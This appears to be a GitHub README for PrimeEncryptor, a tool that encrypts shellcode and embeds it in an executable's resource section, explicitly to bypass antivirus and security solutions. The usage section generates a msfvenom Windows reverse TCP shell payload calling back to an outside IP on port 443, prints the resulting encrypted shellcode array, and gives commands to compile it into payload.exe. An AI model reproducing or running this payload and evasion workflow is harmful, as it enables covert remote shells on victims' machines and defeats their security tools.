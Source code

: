# ♎ **PrimeEncryptor**

**PrimeEncryptor**  is a flexible Dynamic Shellcode Encryptor designed to generate encrypted shellcode using multiple encryption techniques. This tool creates encrypted .bin files, which can be embedded in the resource section of an executable. During runtime, the executable dynamically decrypts and loads the shellcode, helping bypass antivirus and security solutions by evading detection. The encrypted payloads are decrypted at runtime via a loader.

Additionally, PrimeEncryptor provides sample C++ code snippets that give you the necessary functions to load the encrypted shellcode directly from the resource segment of the executable. These code snippets simplify the process of embedding and dynamically loading the shellcode, ensuring efficient execution while maintaining stealth.

---

<p align="center">
  <img src="">
</p>

# ✔️ **Installation**

Clone the repository and set up the environment.

### **Installation**
```bash
git clone https://github.com/dagowda/DSViper.git
cd PrimeEncryptor
sudo apt-get update
sudo apt-get install -y mingw-w64
```

---

# ⚙️ **Usage**

Make sure the necessary dependencies are istalled:

```bash
➜  PrimeEncryptor msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.222.129 LPORT=443 -f raw >payload.bin
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes

➜  PrimeEncryptor python3 PrimeEncyptor.py payload.bin 

  
                                                                                                                         
██████╗ ██████╗ ██╗███╗   ███╗███████╗    ███████╗███╗   ██╗ ██████╗██████╗ ██╗   ██╗██████╗ ████████╗ ██████╗ ██████╗   
██╔══██╗██╔══██╗██║████╗ ████║██╔════╝    ██╔════╝████╗  ██║██╔════╝██╔══██╗╚██╗ ██╔╝██╔══██╗╚══██╔══╝██╔═══██╗██╔══██╗  
██████╔╝██████╔╝██║██╔████╔██║█████╗      █████╗  ██╔██╗ ██║██║     ██████╔╝ ╚████╔╝ ██████╔╝   ██║   ██║   ██║██████╔╝  
██╔═══╝ ██╔══██╗██║██║╚██╔╝██║██╔══╝      ██╔══╝  ██║╚██╗██║██║     ██╔══██╗  ╚██╔╝  ██╔═══╝    ██║   ██║   ██║██╔══██╗  
██║     ██║  ██║██║██║ ╚═╝ ██║███████╗    ███████╗██║ ╚████║╚██████╗██║  ██║   ██║   ██║        ██║   ╚██████╔╝██║  ██║  
╚═╝     ╚═╝  ╚═╝╚═╝╚═╝     ╚═╝╚══════╝    ╚══════╝╚═╝  ╚═══╝ ╚═════╝╚═╝  ╚═╝   ╚═╝   ╚═╝        ╚═╝    ╚═════╝ ╚═╝  ╚═╝  
                                                                                                                         
................................................                                                                         
                      Encryptor function creator                                                                         
---------------------------------------------------------                                                                
Created by Dhanush Gowda(dagowda)                                                                                        
---------------------------------------------------------                                                                
................................................                                                                                                                                                                                                  
                                                                                                                         
Please select the encryption type:                                                                                       
1.)AES encryption                                                                                                        
2.)rot20                                                                                                                 
3.)rc4 encryption                                                                                                        
>2                                                                                                                       
unsigned char ciphertext[] = {0x10,0x5c,0x97,0xf8,0x04,0xfc,0xd4,0x14,0x14,0x14,0x55,0x65,0x55,0x64,0x66,0x65,0x6a,0x5c,0x45,0xe6,0x79,0x5c,0x9f,0x66,0x74,0x5c,0x9f,0x66,0x2c,0x5c,0x9f,0x66,0x34,0x5c,0x9f,0x86,0x64,0x5c,0x23,0xcb,0x5e,0x5e,0x61,0x45,0xdd,0x5c,0x45,0xd4,0xc0,0x50,0x75,0x90,0x16,0x40,0x34,0x55,0xd5,0xdd,0x21,0x55,0x15,0xd5,0xf6,0x01,0x66,0x55,0x65,0x5c,0x9f,0x66,0x34,0x9f,0x56,0x50,0x5c,0x15,0xe4,0x9f,0x94,0x9c,0x14,0x14,0x14,0x5c,0x99,0xd4,0x88,0x7b,0x5c,0x15,0xe4,0x64,0x9f,0x5c,0x2c,0x58,0x9f,0x54,0x34,0x5d,0x15,0xe4,0xf7,0x6a,0x5c,0x13,0xdd,0x55,0x9f,0x48,0x9c,0x5c,0x15,0xea,0x61,0x45,0xdd,0x5c,0x45,0xd4,0xc0,0x55,0xd5,0xdd,0x21,0x55,0x15,0xd5,0x4c,0xf4,0x89,0x05,0x60,0x17,0x60,0x38,0x1c,0x59,0x4d,0xe5,0x89,0xec,0x6c,0x58,0x9f,0x54,0x38,0x5d,0x15,0xe4,0x7a,0x55,0x9f,0x20,0x5c,0x58,0x9f,0x54,0x30,0x5d,0x15,0xe4,0x55,0x9f,0x18,0x9c,0x5c,0x15,0xe4,0x55,0x6c,0x55,0x6c,0x72,0x6d,0x6e,0x55,0x6c,0x55,0x6d,0x55,0x6e,0x5c,0x97,0x00,0x34,0x55,0x66,0x13,0xf4,0x6c,0x55,0x6d,0x6e,0x5c,0x9f,0x26,0xfd,0x6b,0x13,0x13,0x13,0x71,0x5d,0xd2,0x8b,0x87,0x46,0x73,0x47,0x46,0x14,0x14,0x55,0x6a,0x5d,0x9d,0xfa,0x5c,0x95,0x00,0xb4,0x15,0x14,0x14,0x5d,0x9d,0xf9,0x5d,0xd0,0x16,0x14,0x15,0xcf,0xd4,0xbc,0xf2,0x95,0x55,0x68,0x5d,0x9d,0xf8,0x60,0x9d,0x05,0x55,0xce,0x60,0x8b,0x3a,0x1b,0x13,0xe9,0x60,0x9d,0xfe,0x7c,0x15,0x15,0x14,0x14,0x6d,0x55,0xce,0x3d,0x94,0x7f,0x14,0x13,0xe9,0x64,0x64,0x61,0x45,0xdd,0x61,0x45,0xd4,0x5c,0x13,0xd4,0x5c,0x9d,0xd6,0x5c,0x13,0xd4,0x5c,0x9d,0xd5,0x55,0xce,0xfe,0x23,0xf3,0xf4,0x13,0xe9,0x5c,0x9d,0xdb,0x7e,0x24,0x55,0x6c,0x60,0x9d,0xf6,0x5c,0x9d,0x0d,0x55,0xce,0xad,0xb9,0x88,0x75,0x13,0xe9,0x5c,0x95,0xd8,0x54,0x16,0x14,0x14,0x5d,0xcc,0x77,0x81,0x78,0x14,0x14,0x14,0x14,0x14,0x55,0x64,0x55,0x64,0x5c,0x9d,0xf6,0x6b,0x6b,0x6b,0x61,0x45,0xd4,0x7e,0x21,0x6d,0x55,0x64,0xf6,0x10,0x7a,0xdb,0x58,0x38,0x68,0x15,0x15,0x5c,0xa1,0x58,0x38,0x2c,0xda,0x14,0x7c,0x5c,0x9d,0xfa,0x6a,0x64,0x55,0x64,0x55,0x64,0x55,0x64,0x5d,0x13,0xd4,0x55,0x64,0x5d,0x13,0xdc,0x61,0x9d,0xd5,0x60,0x9d,0xd5,0x55,0xce,0x8d,0xe0,0x53,0x9a,0x13,0xe9,0x5c,0x45,0xe6,0x5c,0x13,0xde,0x9f,0x22,0x55,0xce,0x1c,0x9b,0x31,0x74,0x13,0xe9,0xcf,0x04,0xc9,0xb6,0x6a,0x55,0xce,0xba,0xa9,0xd1,0xb1,0x13,0xe9,0x5c,0x97,0xd8,0x3c,0x50,0x1a,0x90,0x1e,0x94,0x0f,0xf4,0x89,0x19,0xcf,0x5b,0x27,0x86,0x83,0x7e,0x14,0x6d,0x55,0x9d,0xee,0x13,0xe9};                                                                                         
resources.rc and rot20.bin has been created                                                                              
TO COMPILE:                                                                                                              
"x86_64-w64-mingw32-windres resources.rc -O coff -o resources.res"                                                       
"x86_64-w64-mingw32-g++ --static -o payload.exe rot20.cpp resources.res -lws2_32 -lshlwapi -fpermissive"
```

---

## 📄 **Notes**
- Ensure you have **Python 3.8+** installed.
- Run the commands in a terminal with the required permissions.


![image_alt](https://github.com/dagowda/DSViper/blob/c9bc60a60bc73fb523a935b8d188fbec5b1521fa/img/screenshot2.png) 
